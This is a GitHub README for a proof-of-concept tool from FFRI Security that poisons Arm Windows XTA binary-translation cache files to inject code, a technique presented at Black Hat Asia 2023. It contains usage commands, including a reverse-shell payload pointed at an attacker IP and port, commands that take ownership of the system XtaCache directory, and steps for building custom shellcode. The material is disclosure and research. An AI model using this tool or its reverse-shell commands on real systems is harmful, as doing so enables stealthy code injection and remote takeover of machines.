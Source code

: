 # XTA Cache Poisoning

## Introduction

Arm-based Windows has mechanisms to run x86/x64 applications by JIT binary translation. Typically, the JIT binary translation is time-consuming, so the translated blocks of code are saved to the storage and cached for the next application launch to improve the performance.

We presented a new code injection technique named "XTA Cache Poisoning" abusing this caching mechanism at [Black Hat Asia 2023](https://www.blackhat.com/asia-23/briefings/schedule/index.html#dirty-bin-cache-a-new-code-injection-poisoning-binary-translation-cache-30907). This repository contains the PoC code of XTA Cache Poisoning and other utilities used in my research.

## Requirements

- Visual Studio 2022
- Python 3.9 on Ubuntu 20.04 on WSL2 (for creating your own payload)
    - [poetry](https://python-poetry.org/) and [radare2](https://github.com/radareorg/radare2) are also required.

## How to build

Open XtacPoisoning.sln with Visual Studio 2022, then select "Build Solution" to compile all executables. Before compiling, you need to select the proper platform. For example, if you want to poison an XTA cache file of an x86 executable, you need to change the platform to x86.

## How to use the PoC code of XTA Cache Poisoning

You can use [PoisonXtac](./PoisonXtac/) to poison an XTA cache file. The usage of this tool is as follows.

```
> PoisonXtac.exe <path to target> <shellcode name> <shellcode parameters>
```

`<shellcode name>` must be one of the followings:

- revshell (it takes an IP address and port number as shellcode parameters.)
- calc (it takes no shellcode parameters.)
- msgbox (it takes no shellcode parameters.)
- custom (it takes paths of shellcode.bin and shellcode_rvas.txt as shellcode parameters. Please refer to ["How to create custom payload"](#how-to-create-custom-payload) to make shellcode.bin and shellcode_rvas.txt)

Example 1 (reverse shell)

```
> PoisonXtac.exe "C:\Users\ffri\Downloads\target.exe" revshell 192.168.0.2 8080
```

Example 2 (calc)

```
> PoisonXtac.exe "C:\Users\ffri\Downloads\target.exe" calc
```

## How to create custom payload

1. Write your own logic in the `ShellcodeEntry` function of [ShellcodeTemplate](./ShellcodeTemplate/Main.c). Then, build ShellcodeTemplate with Visual Studio 2022.

2. Open the command prompt with admin privileges, then run the following command to change the ACL of `%SystemRoot%\XtaCache` directory.

```
> takeown /f C:\Windows\XtaCache
> icacls C:\Windows\XtaCache /grant Administrators:F
```

3. Open the WSL terminal, then run the following command. This script runs the ShellcodeTemplate.exe to create an XTA cache file, then extract the information from it for XtacTranslateTool. After running this, shellcode.bin and shellcode_rvas.txt are created in the same directory as the `main.py` script.

```
$ poetry install
$ poetry run python main.py <x86/x64>
```

4. Test the generated shellcode works as expected. To check this, you can use [TestShellcode](./TestShellcode/).

```
> TestShellcode.exe <path to shellcode.bin>
```

5. Pass shellcode.bin and shellcode_rvas.txt as shellcode parameters to poison an XTA cache file of the target executable.

```
> PoisonXtac.exe "C:\Users\ffri\Downloads\target.exe" custom <path to shellcode.bin> <path to shellcode_rvas.txt>
```

## Other utilities

### [CalcHashes](./CalcHashes/)

This tool calculates the module header hash and module path hash of the specified x86/x64 executable. XtaCache service calculates these two hashes to check whether the specified executable was previously translated. If there is a previous translation result corresponding to the calculated hashes, the XtaCache service reuses the XTA cache file to reduce the amount of binary translation. For more details, see chapter 8 "X86 simulation on ARM64 platforms" of Windows Internals Part2 7th Edition and my Black Hat Asia 2023 talk slides.

### [NTFSTimestampsExperiment](./NTFSTimestampsExperiment/)

This tool is used to test the behavior of the NTFS filesystem's timestamp updates. It demonstrates that we can restore all timestamps (CreationTime, LastWriteTime, ChangeTime, and LastAccessTime of $SI and $FN in the directory) using NtSetInformationFile even if we modify the file contents. So, determining the file identity based on timestamps (not entire file contents) does not work on Windows. XtaCache service determines the file identity to check whether the specified binary was previously translated or not, but this check can be easily spoofed because it is based on the LastWriteTime timestamp, PE header, and NT device path name.

## Author

Koh M. Nakagawa. &copy; FFRI Security, Inc. 2023

## License

[Apache version 2.0](./LICENSE)

